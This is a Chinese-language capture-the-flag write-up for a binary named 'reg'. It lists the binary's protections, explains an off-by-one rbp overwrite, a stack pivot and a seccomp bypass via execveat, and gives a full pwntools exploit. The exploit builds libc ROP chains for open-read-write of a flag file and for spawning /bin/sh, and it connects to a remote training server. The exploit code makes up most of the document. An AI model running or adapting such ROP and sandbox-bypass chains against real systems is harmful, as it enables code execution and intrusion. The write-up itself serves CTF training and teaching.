

# reg 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.5|

## seccomp rules



## 解题思路

先patchelf...然后看栈上内容，有libc, stack，还能控制rbp(buf[0x20] off-by-one 编码错误)，
考虑最后栈迁移；然后就是复制libc地址并偏移到gadget；由于没有pie地址，所以用不了程序的gadget，
考虑用libc中的gadget；还有就是程序有沙盒，所以预期解是orw，但是本地能通，远程不通，
怀疑是fd对不上，但是又不能用`push rax;ret`的gadget：严重干扰rop，使rax成rip了；
回看沙盒，发现除了execve都放行了，execveat被绕过了，故构造`execveat("/bin/sh")`
（只写了关键参数）

## EXPLOIT

```python
from pwn import *
sh = ''
def Add(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'2')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25) # no output, so sleep to avoid input piling

def Set(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'1')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25)

def payload(lo:int, expected:bool):
    global sh
    libc = ELF('./libc-2.35.so')
    if lo:
        sh = process('./reg')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1497)')
    else:
        sh = remote('training.0rays.club', 10084)

    base = libc.symbols['_IO_2_1_stderr_']
    popRdi  = 0x2a3e5 - base
    popRsi  = 0x2be51 - base
    popRdx  = 0x796a2 - base
    popRcx  = 0x3d1ee - base
    popR8  = 0x1657f6 - base
    pushRax = 0x41563 - base
    openAddr  = libc.symbols['open'] - base
    readAddr  = libc.symbols['read'] - base
    writeAddr = libc.symbols['write'] - base
    execveatAddr = libc.symbols['execveat'] - base

    def libcShift(idx, val):
        Set(idx, False, 31)
        Add(idx, True, val)

    Set(31, False, 26) # copy _IO_2_1_stderr_ realAddr to idx 31
    if expected:
        Set(0, True, int(b'flag'[::-1].hex(), 16))
        libcShift(1, popRdi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rdi = &arr[0] (path)
        libcShift(3, popRsi)
        Set(4, True, 0) # set rsi = 0 (flags = O_RDONLY)
        libcShift(5, openAddr)
        libcShift(6, popRdi)
        Set(7, True, 3) # default fd is 3
        libcShift(8, popRsi)
        Set(9, False, 32)
        Add(9, True, 0x120 - 0x180) # set rsi = &arr[24] (buf)
        libcShift(10, popRdx)
        Set(11, True, 55)
        libcShift(12, readAddr)
        libcShift(13, popRdi)
        Set(14, True, 1)
        libcShift(15, popRdx)
        Set(16, False, 9)
        libcShift(17, writeAddr)
    else:
        Set(0, True, int(b'/bin/sh'[::-1].hex(), 16))
        libcShift(1, popRsi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rsi = &arr[0] (path)
        libcShift(3, popRdx)
        Set(4, True, 0)
        libcShift(5, popRcx)
        Set(6, True, 0)
        libcShift(7, popR8)
        Set(8, True, 0)
        libcShift(9, execveatAddr) # execveat(??, &"/bin/sh", 0, 0, 0)

    Set(32, False, 2) # stack pivot to arr[1] (modify on rbp)

    sh.sendline(b'3') # return now
    sh.interactive()
```
